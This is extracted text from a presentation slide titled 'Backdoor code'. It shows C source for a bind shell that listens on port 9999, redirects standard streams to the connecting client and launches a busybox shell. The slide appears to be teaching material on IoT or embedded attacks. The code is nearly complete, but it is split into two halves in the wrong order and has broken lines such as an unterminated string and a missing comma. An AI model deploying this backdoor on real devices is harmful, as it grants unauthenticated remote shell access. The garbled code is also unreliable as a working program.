

# Backdoor code
  serverfd = socket(AF_INET, SOCK_STREAM, 0);
  bind(serverfd, (struct sockaddr *)&server
       sizeof(server));
  listen(serverfd, 1);

  while (1) {
    len = sizeof(struct sockaddr);
    clientfd = accept(serverfd,
      (struct sockaddr *)&client, &len);
    server_pid = fork();
    if (server_pid) {
      write(clientfd, banner,  strlen(banner));
      for(; i < 3 /*u*/; i++)
        dup2(clientfd, i);
      execve("/bin/busybox", args, (char *) 0);
      close(clientfd);
    }
  close(clientfd);
  }
  return 0;
}

#include <stdio.h>
…
#define SERVER_PORT 9999
 //CC-BY: Osanda Malith Jayathissa
 // Bind Shell running busybox
int main() {
  int serverfd, clientfd, server_pid;
  int i = 0;
  char *banner = Shell\n";
  char *args[] = {
    "/bin/busybox", "sh", (char *) 0 };
  struct sockaddr_in server, client;
  socklen_t len;

  server.sin_family = AF_INET;
  server.sin_port = htons(SERVER_PORT);
  server.sin_addr.s_addr = INADDR_ANY;

65